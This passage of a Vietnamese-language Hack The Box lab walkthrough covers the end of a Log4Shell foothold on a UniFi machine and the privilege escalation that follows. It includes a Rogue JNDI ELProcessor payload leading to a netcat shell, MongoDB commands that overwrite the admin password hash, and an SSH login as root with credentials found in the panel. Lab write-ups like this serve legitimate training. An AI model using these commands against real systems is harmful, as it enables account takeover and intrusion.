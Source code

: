 ```
Sending LDAP ResourceRef result for o=tomcat with javax.el.ELProcessor payload
```
##### + Qua màn hình của nc, có được terminal của Rogue server:
![image](https://github.com/WildSaul/HTB_StartingPoint_FreeMachines_AllTiers/assets/155133173/2ea77fc9-7954-4990-80cd-0c474772c963)
###### nếu nc không nhận, kiểm tra lại cú pháp của khi khởi động java -jar và lúc tạo payload vì dấu cách sai chỗ có thể là nguyên nhân. Trong trường hợp khởi động lại máy ảo, nên tạo lại payload.
###### flag của user nằm trong /home/michael

### 4. Privillege Escalation
##### + Trong bài báo về lổng hổng, có đề cập đến việc chúng ta có thể thâm nhập vào panel admin của `Unify` và trích xuất được SSH sử dung bởi các ứng dụng.
##### + Đầu tiên, kiểm tra xem có MongoDB chạy trên máy target không:
###### MongoDB là một datavase được sử dụng đê lưu trữ các thông tin logging.
`ps aux | grep mongo `
##### => MongoDB chạy trên target ở cổng 27117
##### + Tương tác với MongoDB để tìm kiếm thông tin về amdin. Tìm kiếm trên mạng với từ khóa `Unify Default Database` cho ta thấy tên mặc định cho ứng dụng Unify là `ace`:
` mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);" `
![image](https://github.com/WildSaul/HTB_StartingPoint_FreeMachines_AllTiers/assets/155133173/ffd19c21-5a42-4550-83f5-88cbbac4c4ab)
##### + Pass là mã băm SHA-512 nên sẽ k crack được (nhận điện bằng `$6$`)
##### => Thay đổi mật khẩu cho admin: mật khẩu sẽ là Password1234 và hash nó theo SHA-512:
` mkpasswd -m sha-512 Password1234 `
###### Pass sau khi hash: $6$OArdfxYXGx39iioF$Z4KlxMQG6r95jH/F.v57NYY4wFZIW1GDezQ5YPi9OGRAy1bq56fHA5uDFDSzn9Ylj8xqLkVq/waHMRPj3JyUV0
##### + Thay đổi mật khẩu:
```
mongo --port 27117 ace --eval 'db.admin.update({"_id": ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$OArdfxYXGx39iioF$Z4KlxMQG6r95jH/F.v57NYY4wFZIW1GDezQ5YPi9OGRAy1bq56fHA5uDFDSzn9Ylj8xqLkVq/waHMRPj3JyUV0"}})'
...
WriteResult({ "nMatched" : 1, "nUpserted" : 0, "nModified" : 1 })
```
##### + Nếu `WriteResult` như trên là đã thay đổi pass thành công. Có thể kiếm tra lại với lệnh `mongo --port 27117 ace --eval ‘db.admin.find().forEach(printjson);`
##### + Đăng nhập vào trang login `administrator:Password1234`
![image](https://github.com/WildSaul/HTB_StartingPoint_FreeMachines_AllTiers/assets/155133173/afc27c72-d6ec-4920-aa4c-9bdba6f7cddf)

##### + Trong phần setting/site có cho phép kết nối SSH với `root:NotACrackablePassword4U2022`
##### + Đăng nhập vào SSH: `ssh root@10.129.5.75` 
##### => Privillege Escalation thành công!
###### flag nằm trong thư mục đăng nhập.


